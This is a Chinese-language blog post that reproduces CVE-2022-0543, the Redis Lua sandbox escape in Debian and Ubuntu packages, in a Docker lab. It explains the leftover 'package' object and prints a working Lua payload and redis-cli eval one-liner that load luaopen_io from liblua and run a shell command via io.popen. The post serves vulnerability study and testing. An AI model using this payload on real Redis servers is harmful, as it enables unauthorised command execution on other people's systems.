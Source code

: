 ```yaml
---
layout:     post
title:      Redis Lua沙盒绕过命令执行（CVE-2022-0543）
subtitle:   
date:       2023-7-30
author:     xuoneyuan
header-img: 
catalog: true
tags:
    - 漏洞复现
---
```

Redis是著名的开源Key-Value数据库，其具备在沙箱中执行Lua脚本的能力。

Debian以及Ubuntu发行版的源在打包Redis时，不慎在Lua沙箱中遗留了一个对象`package`，攻击者可以利用这个对象提供的方法加载动态链接库liblua里的函数，进而逃逸沙箱执行任意命令。

参考链接：

- <https://www.ubercomp.com/posts/2022-01-20_redis_on_debian_rce>
- <https://bugs.debian.org/cgi-bin/bugreport.cgi?bug=1005787>

## 漏洞环境

执行如下命令启动一个使用Ubuntu源安装的Redis 5.0.7服务器：

```
docker compose up -d
```
![1]({{site.baseurl}}/img-post/r-1.png)	
服务启动后，我们可以使用`redis-cli -h your-ip`连接这个redis服务器。
![1]({{site.baseurl}}/img-post/r-2.png)	
## 漏洞复现

我们借助Lua沙箱中遗留的变量`package`的`loadlib`函数来加载动态链接库`/usr/lib/x86_64-linux-gnu/liblua5.1.so.0`里的导出函数`luaopen_io`。在Lua中执行这个导出函数，即可获得`io`库，再使用其执行命令：

```lua
local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io");
local io = io_l();
local f = io.popen("id", "r");
local res = f:read("*a");
f:close();
return res
```

值得注意的是，不同环境下的liblua库路径不同，你需要指定一个正确的路径。在我们Vulhub环境（Ubuntu fiocal）中，这个路径是`/usr/lib/x86_64-linux-gnu/liblua5.1.so.0`。

连接redis，使用`eval`命令执行上述脚本：

```lua
eval 'local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io"); local io = io_l(); local f = io.popen("id", "r"); local res = f:read("*a"); f:close(); return res' 0
```

可见命令已成功执行：
![1]({{site.baseurl}}/img-post/r-3.png)	
